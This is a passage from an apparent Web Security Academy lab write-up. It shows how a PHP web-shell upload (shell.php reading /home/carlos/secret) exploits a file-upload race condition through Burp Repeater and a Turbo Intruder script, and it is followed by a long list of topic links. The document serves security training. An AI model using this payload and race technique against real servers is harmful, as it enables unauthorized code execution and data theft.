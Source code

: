     ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="shell.php"
        Content-Type: application/x-php

        <?php echo file_get_contents("/home/carlos/secret"); ?>
        ...
    ...
    ```

    v1:
    - Send the second **/my-account/avatar POST** request to the repeater.
    - Send the first **/files/avatar/1.png GET** request to the repeater.
    - Set the **filename** to **shell.php**.
    - Repeat both requests quickly.

    ```plaintext
    TvrJJiw28Sl9nh91kbbosYF5F2NkmN4I
    ```

    v2:
    - Setup a **TURBO INTRUDER** attack.

    ```python
    def queueRequests(target):
        engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

        request1 = '''<YOUR-POST-REQUEST>'''

        request2 = '''<YOUR-GET-REQUEST>'''

        # the 'gate' argument blocks the final byte of each request until openGate is invoked
        engine.queue(request1, gate='race1')
        for x in range(5):
            engine.queue(request2, gate='race1')

        # wait until every 'race1' tagged request is ready then send the final byte of each request
        # (this method is non-blocking, just like queue)
        engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```

[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html

---


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind